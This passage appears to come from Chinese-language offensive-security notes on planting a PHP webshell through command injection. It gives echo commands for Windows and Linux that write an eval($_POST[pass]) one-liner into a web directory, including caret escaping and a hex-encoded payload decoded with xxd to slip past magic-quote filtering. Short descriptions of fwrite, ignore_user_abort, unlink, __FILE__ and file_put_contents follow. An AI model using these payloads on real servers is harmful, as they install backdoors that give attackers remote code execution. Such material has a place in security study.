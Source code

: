 用^转义&lt;

```php
echo ^<?php eval($_POST[pass]); ?^> > web目录shell.php
```

如果加上单引号会写不进去，如果加双引号会把双引号一起写进去，所以要用^转义&lt;

```php
echo '<?php eval($_POST[pass]); ?>' > web目录shell.php
```

linux下命令注入写webshell：

linux下需要用单引号来转义&lt;，不过很多php都默认开启gpc，可以先用16进制转换一句话再用xxd命令把16进制还原.

```php
echo '<?php eval($_POST[pass]);>' > web目录/shell.php
```

```php
echo 3c3f706870206576616c28245f504f53545b706173735d293b3e|xxd -r -ps > web目录/shell.php
```

### fwrite\(\)

fwrite\(\) 函数写入文件，fwrite\(\) 把 _string_ 的内容写入文件指针 _file_ 处。 如果指定了 _length_，当写入了 _length_ 个字节或者写完了 _string_ 以后，写入就会停止，视乎先碰到哪种情况。

```php
fwrite(file,string,length)
```

### ignore\_user\_abort\(\)

设置与客户机断开是否会终止脚本的执行。

如果设置为 true，则忽略与用户的断开，如果设置为 false，会导致脚本停止运行。

如果未设置该参数，会返回当前的设置。

### unlink（）

删除文件。

如果成功，该函数返回 TRUE。如果失败，则返回 FALSE。

### \_\_FILE\_\_

取得当前文件的绝对地址，结果：D:\www\test.php

### file\_put\_contents\(\)

将一个字符串写入文件

```php
 file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] ) : int
```
